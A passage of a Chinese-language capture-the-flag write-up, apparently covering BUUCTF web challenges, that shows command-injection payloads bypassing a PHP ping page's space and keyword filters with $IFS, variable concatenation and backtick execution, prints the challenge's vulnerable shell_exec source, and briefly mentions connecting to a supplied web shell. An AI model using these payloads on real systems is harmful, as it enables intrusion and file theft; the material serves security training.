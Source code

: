 试了几种绕过空格的方法，只有这个能过

```
?ip=127.0.0.1||cat$IFS$1index.php
```

然后就看到了源代码

```php
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "

";
  print_r($a);
}

?>
```

可以看到过滤了flag所以想办法绕过flag即可，另外使用了shell_exec来执行命令

![1626085120035](buuweb_page1.assets/1626085120035.png)

可以利用拼接的形式绕过

```
?ip=127.0.0.1||c=g;cat$IFS$1fla$c.php
```

另一种直接使用内敛执行

```
?ip=127.0.0.1;cat$IFS$1`ls`
```

![1626085276313](buuweb_page1.assets/1626085276313.png)

## [极客大挑战 2019]Knife

直接给了shell，蚁剑连接即可

![1626085402887](buuweb_page1.assets/1626085402887.png)

![1626085464068](buuweb_page1.assets/1626085464068.png)
